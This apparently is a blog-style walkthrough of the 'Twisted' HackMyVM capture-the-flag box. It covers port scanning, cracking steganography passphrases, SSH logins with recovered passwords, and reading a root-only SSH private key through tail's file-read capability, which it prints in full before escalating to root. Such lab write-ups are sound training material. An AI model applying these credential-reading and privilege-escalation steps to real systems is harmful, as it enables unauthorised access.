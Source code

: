 ```yaml
---
title: "Twisted - HackMyVM Walkthrough"
---
```


Description:
An easy one. Tested on Vbox.

nmap service scan: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 17:29 EDT
Nmap scan report for 192.168.56.254
Host is up (0.0015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.14.2
2222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
So a web server and a ssh service running on a peculiar port of 2222. 

We get a webpage with two "identical" images on it. Let's wget the images and run 
stego tools on them to see if there's any additional information hidden in them. 
stegseek results:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ stegseek cat-hidden.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sexymama"

[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".
{% endhighlight %}

from the text file we have the user name mateo and the password thisismypassword. 
These credentials worked when logging in via SSH. 

Local enumeration:

note.txt:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
mateo@twisted:~$ cat note.txt 
/var/www/html/gogogo.wav
{% endhighlight %}

Seeing as this wav file can be accessed in the browser, I downloaded and listened to 
it. It's morse code. Let's run the file through a website that detects morse code in
WAV files: https://morsecode.world/international/decoder/audio-decoder-adaptive.html


Message from the file: 
>G O D E E P E R . . . C O M E W I T H M E . . . L I T T L E R A B B I T . . .

There are three users on the system. bonita, markus and mateo. bonita has a SUID 
binary in the directory called `beroot`. 

SGID binaries: 
{% highlight terminal %}
mateo@twisted:~$ find / -perm -g=s -type f 2>/dev/null 
/home/bonita/beroot
/usr/bin/chage
/usr/bin/ssh-agent
/usr/bin/wall
/usr/bin/dotlockfile
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/bsd-write
/usr/sbin/unix_chkpwd
{% endhighlight %}

SUID binaries: 
{% highlight terminal %}
mateo@twisted:~$ find / -perm -u=s -type f 2>/dev/null 
/home/bonita/beroot
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
{% endhighlight %}

The `beroot` binary sticks out, we'll see what we can do with that later on.

After a little more poking around I noticed that I overlooked running the original 
cat picture through stegseek. Let's do that now:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ stegseek cat-original.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "westlife"

[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".
{% endhighlight %}

We get the login credentials for markus: markus:markuslovesbonita

Let's use them to login as markus over SSH. 
Local enumeration:
{% highlight terminal %}
markus@twisted:~$ cat note.txt 
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it.
{% endhighlight %}

Only root can read and write to the id_rsa file in that directory, so we'll need to
find another way of escalating privileges. 

running linpeas.sh:
{% highlight terminal %}
Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
{% endhighlight %}

Using tail to read the id_rsa file:
{% highlight terminal %}
markus@twisted:~$ tail -n 70 /var/cache/apt/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

I used the key to login as bonita over SSH and poked around. I ran the `beroot` 
binary and it asks the user for a code, which seems to be hard coded into the 
program. I used a python http server to transfer the binary to my kali machine. 

After some static analysis using radare2, I found the value of the code we needed to
get a root shell:
{% highlight terminal %}
bonita@twisted:~$ ./beroot 
Enter the code:
 5880
root@twisted:~# 
{% endhighlight %}

Flags submitted and points added to score. Hooray for points. 
